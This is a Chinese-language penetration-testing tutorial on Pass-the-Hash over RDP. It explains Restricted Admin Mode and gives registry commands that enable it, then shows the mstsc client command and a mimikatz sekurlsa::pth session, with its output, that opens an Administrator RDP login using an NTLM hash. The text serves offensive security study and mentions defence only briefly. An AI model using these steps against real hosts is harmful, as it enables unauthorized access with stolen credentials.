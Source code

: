 ## Pass-The-Hash with RDP

### Restricted Admin Mode

[Restricted Admin Mode](<https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn408190(v=ws.11)#restricted-admin-mode-for-remote-desktop-connection>)（受限管理模式）提供了一种交互式登录远程主机服务器的方法，而无需将您的凭据传输到服务器。如果服务器遭到破坏，这可以防止您的凭据在初始连接过程中被窃取。

受限管理员更改了远程桌面协议，使其使用网络登录而不是交互式登录进行身份验证。有了这种保护，建立 RDP 会话将不需要提供关联的密码；相反用户的 NTLM Hash 或 Kerberos 票证将用于身份验证。

**受限管理员模式只对管理员组成员有效。如果获取到的用户只属于远程桌面用户组，那么是无法通过 hash 登录的。**

> 注：使用 NTLM hash 进行 RDP 登录，客户端和服务器端都需要开启 `Restricted Admin Mode`。

---

新建 DWORD 类型键值 DisableRestrictedAdmin，0 代表开启，1 代表关闭：

```
REG ADD HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
```

查询 DisableRestrictedAdmin 的值，`0x0` 表示已开启：

```
REG QUERY HKLM\System\CurrentControlSet\Control\Lsa | findstr DisableRestrictedAdmin
```

Restricted Admin Mode 本来是为了提高系统的安全性，但是却支持了 Pass-the-Hash 的利用。

在防御上，只需要针对 Pass-the-Hash 的利用进行防御就好，详情见：[https://www.microsoft.com/en-us/download/details.aspx?id=36036](https://www.microsoft.com/en-us/download/details.aspx?id=36036)。

### Windows - mstsc.exe

客户端连接命令：

```
mstsc.exe /restrictedadmin
```

在开启 `Restricted Admin Mode` 后，如果你的 Windows 不支持，执行命令后会弹出远程桌面的参数说明，如下图：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/d5d7ea25d4303702.png){: w="400" }

攻击者使用 mimiketz 进行 pth 运行远程桌面程序 Restricted Admin Mode，在进行 RDP 登录时不需要再输入密码，直接登录即可：

```

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /user:Administrator /domain:172.22.1.2 /ntlm:10cf89a850fb1cdbe6bb432b859164c8 "/run:mstsc.exe /restrictedadmin"
user    : Administrator
domain  : 172.22.1.2
program : mstsc.exe /restrictedadmin
impers. : no
NTLM    : 10cf89a850fb1cdbe6bb432b859164c8
  |  PID  6664
  |  TID  5700
```